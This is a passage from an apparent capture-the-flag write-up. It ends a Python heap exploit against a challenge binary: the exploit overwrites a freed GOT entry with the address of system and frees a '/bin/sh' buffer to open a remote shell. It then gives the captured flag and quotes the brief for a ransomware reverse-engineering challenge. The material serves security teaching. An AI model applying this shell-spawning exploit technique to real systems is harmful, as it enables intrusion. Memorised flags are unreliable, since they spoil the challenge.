 ```python

# allocate bot to put system address in the free got address
allocate_bot(2, 32, b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xff')
allocate_bot(3, 32, b'\x00\x00\x00\x00\x00\x00\x00\x00' + p64(system_real_address) + b'\xff')

# allocate a new bot with '/bin/sh' in it and call free on it to obtain system('/bin/sh')
allocate_bot(9, 16, b'/bin/sh\x00\xff')

print(hex(system_real_address))

p.sendline(b'2')  # remove bot
p.sendline(str(9).encode())  # bot id



p.interactive()
```

**==So run it and get the shell on the remote host:==**
```shell
python3 exploit.py
```

The result is:
- ![[Pasted image 20240529163705.png]]


<mark style="background: #BBFABBA6;">The flag for the part 2 is:</mark> `FLG_{m0r3_l1k3_un54f3_l1nk1n6}`


# Challenge part 3-4

## Introduction
We can access to these challengse through [challenge part 3](https://sas.hackthe.space/#/challenges/Binary%2010) [challenge part 4](https://sas.hackthe.space/#/challenges/Binary%2011)

From the description of the flag we don't get many useful information.

We just understand that:
```
You will need the following information:

- The [file bundle](https://sas.hackthe.space/cms/files/15de5f33f88248bee0ca063b1f225805e57e5d5b380d21ca7b076559d320b79f/wannalmao.zip).
- The flag regex is `FLG_\{[a-z0-9_]+\}`

Recommended tools:

- Windows 10 VM with [FlareVM toolkit](https://github.com/mandiant/flare-vm) installed, and internet connectivity
- IDA/Ghidra
- ILSpy
- Other tools found in FlareVM (PE studio, DetectItEasy, hex editors, etc.)

**Important note:**

- Execute the binary in a Windows 10 VM environment only.
- It can take 1-2 minutes for the ransomware to start on first startup, as it silently downloads some dependencies in the background, so be patient. Subsequent starts should be faster.
- It encrypts .txt files contained in the directory of the executable. Do not run it on the host machine. You can do static analysis on the host machine, though.
- You will encounter various anti-debug/obfuscation techniques discussed in the lecture.
```